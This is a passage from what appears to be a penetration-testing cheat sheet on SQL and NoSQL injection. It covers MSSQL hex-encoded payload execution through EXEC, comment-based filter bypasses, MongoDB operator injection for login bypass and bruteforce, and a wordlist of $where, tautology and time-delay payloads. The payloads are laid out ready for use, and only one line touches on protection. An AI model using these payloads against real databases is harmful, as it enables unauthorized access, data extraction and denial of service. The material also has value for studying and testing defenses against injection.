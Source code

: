     SELECT 'output: '+@data AS output INTO rce_result;

    # hex encoded payload execute
    DECLARE @S VARCHAR(4000);
    SET @S=CAST(payload_in_hex AS VARCHAR(4000));
    EXEC(@S);
    ```
* bypass comments
    ```selet * from x where /*!user='admin'*/  -> or /*+*/```
* unicode in mysql
    ```mysqli_set_charset($conn,"utf8"); select 'admin' = 'àdmin';   # will return 1```

# NOSql
* arrays: 
    + `{"$gt": ""}, &input[$ne]=1`
* horizontal auth bruteforce:
    + `user[$in][]=admin&user[$in][]=user&pass=abc123 ; {user: {"$in": ["admin", "user"]}}`
    + `user[$regex]=a&pass=abc123`
* `db.run(user input)` is like classical sql injection
* JavaScript code can execute within the database engine inside:
    + $where
    + group
    + map-reduce
* protection:
    + getting rid of the qs module
* payloads:
    ```
    # mostly from https://github.com/cr0hn/nosqlinjection_wordlists/blob/master/mongodb_nosqli.txt
    (function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<10000); return Math.max();})()
    '0; return true'
    '0; while(true){}'
    true, $where: '1 == 1'
    , $where: '1 == 1'
    $where: '1 == 1'
    ', $where: '1 == 1'
    1, $where: '1 == 1'
    { $ne: 1 }
    ', $or: [ {}, { 'a':'a
    ' } ], $comment:'successful MongoDB injection'
    db.injection.insert({success:1});
    db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
    || 1==1
    ' && this.password.match(/.*/)//+%00
    ' && this.passwordzz.match(/.*/)//+%00
    '%20%26%26%20this.password.match(/.*/)//+%00
    '%20%26%26%20this.passwordzz.match(/.*/)//+%00
    {$gt: ''}
    [$ne]=1
    ';sleep(5000);
    ';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
    ```

